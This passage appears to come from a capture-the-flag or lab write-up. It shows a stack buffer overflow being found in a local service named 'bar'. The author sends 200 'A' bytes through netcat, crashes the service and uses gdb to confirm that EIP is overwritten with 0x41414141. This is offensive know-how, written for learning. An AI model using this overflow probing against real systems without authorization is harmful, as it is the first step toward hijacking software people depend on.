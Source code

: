 This service requested that each command should be less than 121 characters each. I decided to see how it would handle 200 characters. On one terminal, I set ulimit for core files to unlimited and restarted bar. 

```
root@kali:~# ulimit -c unlimited
root@kali:~# ./bar
```

Once the service was running, I sent 200 bytes to the service:

```
root@kali:~# python -c 'print "A" * 200' | nc localhost 65535
Welcome to the jungle.  
Enter up to two commands of less than 121 characters each.
Got it
Got it
root@kali:~# 
```

Sure enough, the service crashed with a segmentation fault and core dumped:

```
Received: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Received: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

here
Segmentation fault (core dumped)
root@kali:~#
```

I loaded up the core file in gdb and examined the registers. 

```
root@kali:~# gdb -q -c core
[New LWP 4776]
Core was generated by `./bar'.
Program terminated with signal 11, Segmentation fault.
#0  0x41414141 in ?? ()
(gdb) i r
eax            0x5	5
ecx            0xb77244c0	-1217248064
edx            0xb7725340	-1217244352
ebx            0xb7723ff4	-1217249292
esp            0xbfd107c0	0xbfd107c0
ebp            0x41414141	0x41414141
esi            0x0	0
edi            0x0	0
eip            0x41414141	0x41414141
eflags         0x10246	[ PF ZF IF RF ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
(gdb)
```
